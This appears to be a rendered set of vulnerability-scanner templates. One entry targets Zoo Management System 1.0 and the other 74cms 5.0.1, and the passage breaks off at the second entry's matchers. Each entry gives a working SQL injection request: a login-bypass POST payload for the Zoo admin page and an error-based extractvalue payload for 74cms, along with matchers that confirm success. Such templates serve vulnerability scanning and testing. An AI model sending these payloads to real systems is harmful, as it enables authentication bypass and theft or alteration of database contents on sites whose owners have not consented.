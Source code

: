 **Type - status**
- status
    1. 200

---
# Zoo Management System 1.0 - SQL Injection
## Description
- Zoo Management System 1.0 contains a SQL injection vulnerability via the username parameter on the login page. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - edb,packetstorm,zms,sqli,auth-bypass,cms
## Requests
### Step - 1
```
POST /admin/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271&password=any&login=

```
### Matchers

**Type - word**
- part - body
- words
    1. ZMS ADMIN
    2. Dashboard
    3. Zoo Management System
- condition - and

**Type - status**
- status
    1. 200

---
# 74cms Sql Injection
## Description
- A SQL injection vulnerability exists in 74cms 5.0.1 AjaxPersonalController.class.php.
- severity - critical
- tags - 74cms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=test") and extractvalue(1,concat(0x7e,md5({{num}}))) -- a
### Matchers
